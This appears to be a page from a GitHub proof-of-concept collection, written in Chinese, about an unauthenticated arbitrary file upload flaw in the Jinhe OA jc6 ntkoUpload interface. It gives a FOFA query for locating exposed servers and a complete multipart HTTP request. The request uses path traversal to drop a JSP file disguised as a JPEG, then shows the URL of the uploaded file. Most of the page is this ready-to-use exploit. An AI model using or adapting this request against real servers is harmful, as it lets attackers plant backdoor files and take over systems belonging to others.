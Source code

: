 ## 金和OA_jc6_ntko-upload任意文件上传漏洞

金和OA jc6系统ntkoUpload接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。

## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /jc6/ntkoUpload/ntko-upload!upload.action HTTP/1.1
Host: you_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Length: 392
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----zqulxi4ku42pfmoelvc0
Connection: close

------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="filename"

../../../../upload/xicxc2sv1n.jsp
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="upLoadFile"; filename="xicxc2sv1n.jpg"
Content-Type: image/jpeg

<% out.println(111*111); %>
------zqulxi4ku42pfmoelvc0
Content-Disposition: form-data; name="Submit"

upload
------zqulxi4ku42pfmoelvc0--
```

![image](https://github.com/wy876/POC/assets/139549762/5961c079-2af6-4449-aa69-b5cb30ecb4b1)

上传文件路径：
http://you_ip/upload/xicxc2sv1n.jsp


![image](https://github.com/wy876/POC/assets/139549762/8fd1879a-11ab-4dde-9821-665d3e6ceb49)

